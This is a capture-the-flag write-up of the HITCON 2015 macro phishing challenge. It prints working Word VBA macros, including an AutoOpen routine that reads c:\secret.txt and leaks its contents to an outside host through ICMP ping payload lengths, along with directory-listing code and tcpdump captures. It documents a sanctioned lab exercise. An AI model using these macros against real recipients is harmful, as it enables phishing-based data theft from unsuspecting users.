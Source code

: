 My team, CLGT.

Description:

>Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.
>
>Hint


From the information, we know this challenge is all about macro. Requirement will be,

- MS Windows
- Ms Word with Macro
- Email with subject "HITCON 2015"
- RCPT TO: phishing.me.hitcon.2015@gmail.com

Once all this condition is fulfilled. We received an confirmation email from HITCON
> I've read your doc. Interesting

First guess was, ping to home
> Shell ("ping -n 1 my.ip.add.ress")

TCPDUMP from home with ICMP on. Bingo, packet received. We went and wrote few more connection script like email and web. Looks like we got no luck at all. So we concluded,

- NO Outgoing TCP Allowed (** ppp solved it with DNS)

Looks like ICMP able to to go out from the box. So, we did another test.

> Shell ("ping -n 1 -l 2 my.ip.add.ress")

And we received

> 11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10

This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.
```
strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next
```

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir"

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)

Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next
```

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt

```
Sub AutoOpen()

Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8

        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
```

From TCPDUMP we received
```
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125
```

By taking all the length, we got the string as

> hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!!

Special thanks to k9 from CLGT

